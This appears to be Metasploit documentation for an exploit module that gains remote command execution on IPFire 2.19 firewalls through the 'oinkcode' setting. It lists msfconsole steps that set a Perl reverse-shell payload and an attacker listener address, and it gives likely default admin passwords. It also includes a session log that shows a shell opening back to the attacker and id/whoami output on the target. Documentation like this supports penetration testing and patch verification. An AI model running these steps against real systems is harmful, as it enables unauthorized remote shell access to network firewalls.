 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.19-core110/ipfire-2.19.x86_64-full-core110.iso)

This module has been verified against:

1. 2.19 core 100
2. 2.19 core 110 (exploit-db, not metasploit module)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_oinkcode_exec```
  4. Do: ```set password admin``` or whatever it was set to at install
  5. Do: ```set rhost 10.10.10.10```
  6. Do: ```set payload cmd/unix/reverse_perl```
  7. Do: ```set lhost 192.168.2.229```
  8. Do: ```exploit```
  9. You should get a shell.

## Options

### PASSWORD

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf > use exploit/linux/http/ipfire_oinkcode_exec 
    msf exploit(ipfire_oinkcode_exec) > set password admin
    password => admin
    msf exploit(ipfire_oinkcode_exec) > set rhost 192.168.2.201
    rhost => 192.168.2.201
    msf exploit(ipfire_oinkcode_exec) > set verbose true
    verbose => true
    msf exploit(ipfire_oinkcode_exec) > check
    [*] 192.168.2.201:444 The target appears to be vulnerable.
    msf exploit(ipfire_oinkcode_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Command shell session 1 opened (192.168.2.117:4444 -> 192.168.2.201:38412) at 2017-06-14 21:12:21 -0400
    id
    uid=99(nobody) gid=99(nobody) groups=99(nobody),16(dialout),23(squid)
    whoami
    nobody
  ```
